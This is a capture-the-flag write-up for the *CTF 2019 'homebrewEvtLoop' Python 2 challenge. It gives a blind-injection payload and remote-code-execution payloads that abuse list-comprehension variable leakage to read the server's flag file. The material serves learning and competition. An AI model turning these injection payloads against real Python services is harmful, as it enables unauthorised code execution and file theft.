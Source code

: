 # [*CTF 2019 Misc] `homebrewEvtLoop--` and `homebrewEvtLoop#`

An interesting python2 challenge. You may find some techniques here similar to those in SQL injection.

## Problem

Please find the `server.py`.

## Solution
 
#### stage 1 (Blind injection)
```python
session[args[0]][52]in[event[8]][0]and[dir][0]or[abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_0123456789]114514log
```

Blind injection by changing the indexes, `[52]` of `session[args[0]]`(`session['log']`) and `[8]` of `event`, with reusing the submitted string `event` as alphabet.     

Alternatively, you can use `valid_event_chars` as alphabet, or get the flag directly by using an exploit of stage 2.

#### stage 2 (Remote Code Execution)
```python
[[str]for[PoW]in[[switch_safe_mode]]for[raw_input]in[[input]]][0][0]114514
['[[str]for[args]in[[session]]][0][0]114514' for session in [open('flag','rb').read()]][0]
```

This is a feature of python2, that list comprehension could be used as assignments to global variables.

## Related Challenges

`DDCTF 2019` - Web: `homebrew event loop`
